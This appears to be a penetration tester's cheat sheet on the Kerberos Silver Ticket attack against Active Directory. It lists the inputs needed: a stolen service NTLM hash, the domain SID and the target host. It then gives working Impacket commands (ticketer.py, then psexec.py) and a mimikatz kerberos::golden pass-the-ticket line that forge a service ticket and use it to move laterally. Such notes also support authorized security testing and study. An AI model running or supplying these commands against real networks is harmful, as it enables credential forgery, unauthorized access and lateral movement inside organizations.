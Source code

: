 ```yaml
---
id: Silver Tickets
aliases:
  - Silver Tickets
tags:
  - windows
  - AD
  - passwords
  - pivoting
  - kerberos
  - lateral
---
```

Steal a service account's NTLM hash and use it to forge a TGS ticket which can be used access specific services on the network.
## Required information

- SPN's NTLM hash
    - e.g. Mimikatz
- Domain SID
    - Run `whoami /user`
    - Isolate the SID -> Remove the last part (after the -)
- Target machine
    - FQDN -> i.e. `web04.corp.com`
    - Where SPN runs
    - Service is for instance HTTP

## From Linux
```bash
ticketer.py -nthash "$HASH" -spn "$SPN" -domain-sid "$DOMAIN_SID" -domain "$DOMAIN" "$USER"
export KRB5CCNAME="/root/impacket-examples/$TICKET_NAME.ccache"
psexec.py "$DOMAIN"/"$USER"@"$TARGET" -k -no-pass
```

## From Windows

1. Run mimikatz.exe
2. Run `kerberos::golden`:
```mimikatz
kerberos::golden /sid:$DOMAIN_SID /domain:$DOMAIN /ptt /target:$TARGET /service:$SERVICE /rc4:$HASH /user:$TARGET_USER
exit
```
3. Check that the ticket was created with `klist`